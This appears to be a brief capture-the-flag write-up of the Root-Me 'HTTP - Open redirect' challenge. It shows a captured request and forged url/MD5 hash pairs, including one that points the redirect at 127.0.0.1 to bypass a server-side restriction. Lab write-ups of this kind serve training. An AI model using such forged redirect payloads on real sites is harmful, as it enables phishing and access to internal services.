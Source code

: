 # HTTP - Open redirect

ctrl + u -> find '?url' or similar word

***

Button clicking generates this request

```
GET /web-serveur/ch52/?url=https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134 HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://challenge01.root-me.org/web-serveur/ch52/?url=https://facebook.com&h=be8b09f7f1f66235a9c91986952483f0
Cookie: _ga_SRYSKX09J7=GS1.1.1661060653.11.1.1661060933.0.0.0; _ga=GA1.1.841472709.1660615125
Upgrade-Insecure-Requests: 1
```

https://facebook.com -> md5 encryption a023cfbf5f1c39bdf8407f28b60cd134

then

https://www.google.com -> md5 encryption 8ffdefbdec956b595d257f0aaeefd623

I used this site: https://www.tunnelsup.com/hash-analyzer/ https://10015.io/tools/md5-encrypt-decrypt

\->

then I can manipulate the url flow. ?url=https://www.google.com\&h=8ffdefbdec956b595d257f0aaeefd623

\->

how to use

?url=http://127.0.0.1

h=5c016e8f0f95f039102cbe8366c5c7f3

for server side restriction bypass

\->

?url=http://127.0.0.1\&h=5c016e8f0f95f039102cbe8366c5c7f3
